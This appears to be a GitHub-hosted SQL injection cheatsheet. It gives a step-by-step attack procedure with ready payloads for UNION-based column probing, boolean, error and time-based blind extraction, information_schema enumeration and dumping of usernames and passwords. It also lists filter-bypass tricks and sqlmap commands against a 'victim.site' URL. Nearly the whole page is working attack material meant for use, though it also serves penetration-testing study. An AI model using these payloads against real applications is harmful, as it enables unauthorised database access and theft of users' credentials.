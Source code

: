 # SPIROS (SQL Cheatsheet)

## SQL Cheatsheet:

### Commenting in SQL

![commenting diagram](img/sql_cheatsheet/sql%20comments.jpg)

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.
> When using `#` as a comment for MySQL, there's no need to add a space after.

### Overview for SQLi

|No.|Steps|Method|
|---|---|---|
|1|Identify instances where application access DB| Look at URL param, cookies, POST data, HTTP headers|
|2|Try injecting SQL| Start with single quotes, concatenator characters, eg: `' 'FOO`|
|3|Determine no. of cols| `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` ... until there's no error|
|4.1|Determine which cols have string data type| `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` ... until there's no error |
|4.2|Determine which cols have numeric data type| `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`... until there's no error|
|4.3|Use conditional responses if there's no direct method of transmitting data|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`|
|4.4.1|Use conditional errors if there's no noticeable effect on application behavior|`SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username|
|4.4.2|Conditional errors (time delay)|`' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server's response.
|5|Extracting table and cols name|`' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`|
|6.1|Dumping DB using multi cols with string data type|`' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`|
|6.2|Dumping DB using 1 col with string data type|`SELECT CONCAT(username,':',password), NULL, NULL from users -- -`|
|6.3|Dumping DB using multi cols with numeric data type|`' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., 'q')|
|6.4|Dumping DB using conditional responses|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter 'q'|

### Bypassing filters

|Types of blacklisting filter|Ways to bypass|
|---|---|
|Strings|Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`|
|Comments|Use `' OR 'a'='a` instead of `' OR 1=1 -- -`|
|Keywords|Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54`

### SQLmap

|Types of attack|Methods|
|---|---|
|POST request|`sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs`|
|GET request|`sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`|
|Using Request file from Burpsuite|`sqlmap -r <path to .req file> -p user –dbs`|

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```
### Good resources

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)